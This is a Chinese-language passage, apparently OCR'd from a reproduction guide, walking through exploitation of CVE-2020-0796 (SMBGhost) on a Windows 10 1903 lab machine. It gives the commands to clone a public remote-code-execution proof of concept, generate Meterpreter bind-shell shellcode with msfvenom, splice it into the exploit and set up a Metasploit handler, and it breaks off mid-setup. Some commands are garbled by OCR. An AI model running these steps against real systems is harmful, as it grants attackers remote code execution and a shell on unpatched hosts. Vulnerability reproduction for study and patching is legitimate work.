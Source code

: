 目标靶机：windows10 1903 x64 (专业版，企业版也可以） ip:192.168.1.103

目 标 靶 机 的 下 载 地 址 ：
ed2k://\|file\|cn\_windows\_10\_business\_editions\_version\_1903\_x64\_dvd\_e001dd2c.iso\|4815527936\|
47D4C57E638DF8BF74C59261E2CE702D\|/

**环境要求：**

该poc不太稳定，需要多次测试(猜测是占用监听端口或者网络问题），有可能出现蓝屏现象(2).如果POC失败，可能是目标系统开启系统自带的defender拦截了。

**复现步骤**

kali下克隆下载利用poc

`root\@kali2019:/opt\# git clone* https://github.com/ianxtianxt/SMBGhost_RCE_PoC.git`

![5.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId38.jpg)

切换到利用poc目录下

`root\@kali2019:/opt\# cd SMBGhost_RCE_PoC/`

![6.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId39.jpg)

该POC需要用python3环境执行

![7.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId40.png)

可以看到目标靶机的IP地址以及系统版本

![8.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId41.png)

![9.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId42.png)

在kali下生成python版本的反弹shellcode

`root\@kali2019:\~\# msfvenom ``­``p windows/x64/meterpreter/bind_tcp lport=2333 ``­``f py ``­``o exp.py`

![10.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId43.jpg)

![11.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId44.png)

可以看到生成的shellcode root\@kali2019:\~\# cat exp.py

将生成的exp.py代码中的变量buf全部替换成变量USER\_PAYLOAD，然后将所有代码粘贴覆盖下面的代码处：

![12.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId45.jpg)

在kali上启动MSF，并如下设置`msf5 \> use exploit/multi/handler`

`msf5 exploit(multi/handler) \> set payload windows/x64/meterpreter/bind_tcp`\
\#设置反弹模式msf5 exploit(multi/handler) \> set rhost 192.168.1.103\
\#设置目标靶机IP地址

![13.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId46.png)
